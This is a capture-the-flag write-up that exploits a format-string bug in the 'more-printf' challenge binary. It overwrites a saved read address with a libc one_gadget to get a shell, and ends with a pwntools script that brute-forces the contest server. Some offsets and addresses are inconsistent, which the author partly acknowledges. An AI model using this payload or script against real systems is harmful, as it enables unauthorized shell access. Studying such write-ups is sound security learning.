


## Challenge Description
---

> printf();
>
> nc pwn.zh3r0.cf 2222
>
> Attached: [printf.tar.gz](attachments/more-printf.tar.gz)
>
> Author - hk


## Overview
---

Extracting the tar archive, we are provided with a binary, the source code, and libc-2.27.so.

```c
/* gcc -o more-printf -fstack-protector-all more-printf.c */
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

FILE *fp;
char *buffer;
uint64_t i = 0x8d9e7e558877;

_Noreturn main() {
  /* Just to save some of your time */
  uint64_t *p;
  p = &p;

  /* Chall */
  setbuf(stdin, 0);
  buffer = (char *)malloc(0x20 + 1);
  fp = fopen("/dev/null", "wb");
  fgets(buffer, 0x1f, stdin);
  if (i != 0x8d9e7e558877) {
    _exit(1337);
  } else {
    i = 1337;
    fprintf(fp, buffer);
    _exit(1);
  }
}
```

Checking the security of the binary, we see that we have every protection enabled except for a stack canary.

```cs
[*] '/home/elma/Playground/more-printf/more-printf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
```

Let's dive right into it.


## Thought Process
---

Few minutes into the binary and we already have a few issues on our hands

1. We are only provided with a single input which is sent to `/dev/null`. This means that we are unable to leak any output which makes it rather tricky.
2. Our input is sent to the heap which prevents us from referencing back to our own input in our format string attacks.
3. There is a 'canary' `i` which prevents us from easily looping to `main()` and getting another printf.
4. `FULL RELRO` is enabled which means that we are unable to overwrite any `GOT` data and any attempts to do so will be met with a `SIGSEGV`.

If we look at the disassembly of `fprintf`, we can see that we want to break at `_IO_vfprintf_internal` which is `fprintf+143`. Hence, let's set a breakpoint there.

Here is what the stack frame looks at `fprintf+143`.



As you can see, our return address is at `0x7fffffffd7d8 —▸ 0x5555555552af (main+198)`

Let's look at what format string offsets we can control by changing `fprintf` output to `stdout` which outputs the format strings.

We can do this with `set $rdi=(void*)stdout`

We continue to the next instruction, and we see that we have the following values:

```
0x55555555d260,0x7ffff7af4191,0x7ffff7dd18c0,0x7ffff7ff5540,0x7fffffffd7b0,0x8663804b612c7c00,0x5555555552c0,0x7ffff7a05b97,0x2000000000
```

which corresponds to

```
06:0030│         0x7fffffffd700 —▸ 0x55555555d260 ◂— '%p,%p,%p,%p,%p,%p,%p,%p,%p\n'
07:0038│         0x7fffffffd708 —▸ 0x7ffff7af4191 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
08:0040│         0x7fffffffd710 —▸ 0x7ffff7dd18c0 ◂— 0x0
09:0048│         0x7fffffffd718 —▸ 0x7ffff7ff5540 ◂— 0x7ffff7ff5540
...
1c:00e0│         0x7fffffffd7b0 ◂— 0x7fffffffd7b0
1d:00e8│         0x7fffffffd7b8 ◂— 0x8663804b612c7c00
1e:00f0│ rbp     0x7fffffffd7c0 —▸ 0x5555555552c0 (__libc_csu_init) ◂— endbr64
1f:00f8│         0x7fffffffd7c8 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax
20:0100│         0x7fffffffd7d0 ◂— 0x2000000000
```

The only saving grace of this whole situation is the `p = &p`, which is in the stack at `1c`.

Since we have control over it on our FSB, we are able to use it to modify stuff on our stack and bypass `FULL RELRO`.

It is also important to note that we are only able to use one positional argument to modify values on the stack.

> fprintf will call vfprintf internally. When vfprintf encounters the first positional parameter $ it copies all needed argument to an internal buffer, on the next positional parameter $, it will fetch the original value which was there instead of the changed value.

Now we have all the pieces laid on the table for us, I considered the following techniques

- We could probably loop back to main to allow us to obtain more writes and easily solve the challenge from there.

However, we quickly noticed that our `i` canary was stored in the `bss` segment which address is randomized. This means we are unable to fix the `i` canary to return to main.

- Since our `i` canary only prevents us from calling fprintf a second time, I considered modifying nibbles of some libc addresses into one_gadget addresses and returning to main to call it (i.e. fgets, read etc.)

However, after some trying, I noticed that I will need to reuse `p = &p` since `RELRO` is enabled and I have to modify `read()` and our return address.

At this point, we had ideas all over the place _(in fact the answer was in our face but my ubuntu just keeps farting)_ that we didn't manage to piece together in time.


## Post-CTF exploitation
---

Before we continue, it is important to understand the internal structures of printf.

```text
┌──────────────────────────┐ ┌───────────────────────────┐
│                          │ │                           │
│                          │ │                           │
│                          │ │                           │
│   fprintf(fp, buffer);   │ │         exit(1);          │
│                          │ │                           │
│                          │ │                           │
└─────────────┬────────────┘ └─────────────▲─────────────┘
              │                            │  return
┌─────────────▼────────────┐ ┌─────────────┴─────────────┐
│                          │ │                           │
│                          │ │                           │
│         vfprintf()       │ │        fprintf()          │
│                          │ │                           │
│                          │ │                           │
└─────────────┬────────────┘ └─────────────▲─────────────┘
              │                            │
┌─────────────▼────────────┐               │
│                          │               │
│                          │               │
│         read()           ├───────────────┘
│                          │
│                          │
└──────────────────────────┘
```

`read` is actually called during the execution of fprintf. This is a whole game-changer for us because remember in our previous collation of ideas, we mentioned modifying a libc address into a `one_gadget` and call it by returning to main.

In fact, we can modify `read` and we don't even need to return to main.

However, that's not enough. In order to be able to modify read into a `one_gadget` address, we will use the field width operator `*`.

> Use * to have a variable field width, equals to an signed integer on the stack, can combine with positional argument. Eg. %*10$c: print a number of characters equals to the 10th argument.

Consider the stack frame again.


```c
07:0038│         0x7fffffffd708 —▸ 0x7ffff7af4191 (read+17)
1c:00e0│         0x7fffffffd7b0 ◂— 0x7fffffffd7b0 \\ p=&p
```

We first modify our `p = &p` to point at `0x7fffffffd708`. Since we can only use one positional argument, we will pad our format string with `%c` until we reach the 5th argument which is our offset to `p = &p` on the stack.

We want to modify the lower bits from `b0` -> `08`. We will use `%hhn` which only modifies the last byte of the address.

After playing round a little bit, `%c%c%c%5c%hhn` will point `p` to `read+ 17`.

This is our new stack frame after modification.



```c
07:0038│     0x7fffffffd708 —▸ 0x7ffff7af4191 (read+17)
1c:00e0│     0x7fffffffd7b0 —▸ 0x7fffffffd708 —▸ 0x7ffff7af4191 (read+17)
1f:00f8│     0x7fffffffd7c8 —▸ 0x7ffff7a05b97 (__libc_start_main+231)
```

Now that we have successfully pointed `p` to `read`, we can modify `read`.

We can use the address of `__libc_start_main+231` which is at our 8th offset, and add an offset to it to turn it into a `one_gadget` address.

Let's calculate our offset from `__libc_start_main+231` to `one_gadget`.

First, we find our one_gadget offset from libc base.

```cs
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Using `vmmap` in gdb, we can obtain our libc base address.

```py
_libc_start_main_ret = 0x00007ffff7a03bf7
_libc_base = 0x00007ffff79e2000

one_gadget = _libc_base + 0x4f3d5 = 0x00007fff08629be7
diff = one_gadget - _libc_start_main_ret = 186334

# since we have already written %c%c%c%5c = 8 bytes, we just have to write
186334 - 8 = 186326 # bytes more.
```

Here is what our second payload will consist of :

1. `%*8$c` : prints number of characters equals to its address `0x7ffff7a05b97`
2. `%186326c` : adds offset to one_gadget
3. `%5$n` : overwrites address of read to number of bytes written before it.

Hence, putting our payloads together, we have

`%c%c%c%5c%hhn%*8$c%186326c%5$n`

which modifies our pointer to `read` and modifies `read` address to `one_gadget`.

However, since our second `%n` modifies all 8 bytes of the address and only the last 3 nibbles of libc address is deterministic, there is only a `1 in 32` chance of obtaining our shell. Hence we can write a script for this.

```py
from pwn import *
from warnings import filterwarnings as fw
fw('ignore', category=BytesWarning)


counter = 0
with log.progress("brute forcing to shell") as pro:
    while True:
        try:
            # p = process('./more-printf')
            with context.quiet:
                p = remote('pwn.zh3r0.cf', 2222)
            p.sendline('%c%c%c%5c%hhn%*8$c%186326c%5$n')
            p.sendline("cat flag")
            p.recvline()
            log.success("enjoy your shell :)")
            p.interactive()
        except EOFError:
            counter = counter + 1
            pro.status(f"{counter} tries")
            pass
```

Let's watch this in action!

<script id="asciicast-RiYbbwWBq8NklbFMQkXTSyRFi" src="https://asciinema.org/a/RiYbbwWBq8NklbFMQkXTSyRFi.js" async></script>

---

<sub><sup>
_*note:_ some of my values may change halfway through the writeup due to an issue with my binary but the concept reamins unchanged!

_credits to [violenttestpen](https://violenttestpen.github.io/) for going through some of these concepts and teaching me some FSB hacks hehe his writeup is [here](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)_
</sup></sub>
